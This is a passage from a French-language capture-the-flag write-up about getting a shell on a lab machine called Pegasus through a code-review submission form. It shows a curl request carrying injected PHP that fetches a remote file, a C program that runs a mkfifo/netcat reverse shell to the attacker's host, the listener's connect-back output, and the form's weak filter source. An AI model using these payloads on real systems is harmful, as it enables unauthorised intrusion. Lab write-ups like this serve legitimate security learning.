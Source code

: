 Effectivement en POST il retourne le message `Sent for review!` si le paramètre `code` est défini. J'ai joué un peu avec `curl` pour essayer d'obtenir un RCE et au boût d'un moment j'ai eu une réponse différente :

```bash
$ curl http://192.168.57.5:8088/submit.php -X POST -d 'code=%3C%3Fphp%20system%28%22curl%20http%3A//192.168.57.1/toto.js%22%29%3B%20%3F%3E'
Sorry, due to security precautions, Mike won't review any code containing system() function call.
```

Intéressant. Le script s'attend donc à recevoir du code dans un langage qui dispose d'une fonction `system()`. J'ai essayé différents langage avec bien sûr PHP en tenant d'utiliser `shell_exec` et `passthru` mais sans résultat.

Finalement j'ai passé le code C suivant au script :

```c
#include <unistd.h>

int main(void) {
    char *args[4];
    args[0] = "/bin/bash";
    args[1] = "-c";
    args[2] = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.57.1 80 >/tmp/f";
    args[3] = NULL;
    execve(args[0], args, NULL);
    return 0;
}
```

Et j'ai reçu un connect back de la part de l'utilisateur *Mike* :

```bash
$ sudo ncat -l -p 80 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.57.5.
Ncat: Connection from 192.168.57.5:55175.
bash: no job control in this shell
mike@pegasus:/home/mike$ id
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

## et jaunes et pourpres

Voici le code du script `submit.php` qui récupérait le code et le copiait dans un fichier :

```php
<?php
if(isset($_POST[code]))
{
        $code = $_POST[code];
        if (strpos($code, 'system(') !== false || strpos($code, 'system (') !== false)
        {
                die("Sorry, due to security precautions, Mike won't review any code containing system() function call.");
        }
        $ret = file_put_contents('/opt/code_review/code.c', $code, FILE_APPEND | LOCK_EX);
        if ($ret === false)
        {
                die("Error");
        }
        else
        {
                echo "Sent for review!";
        }
```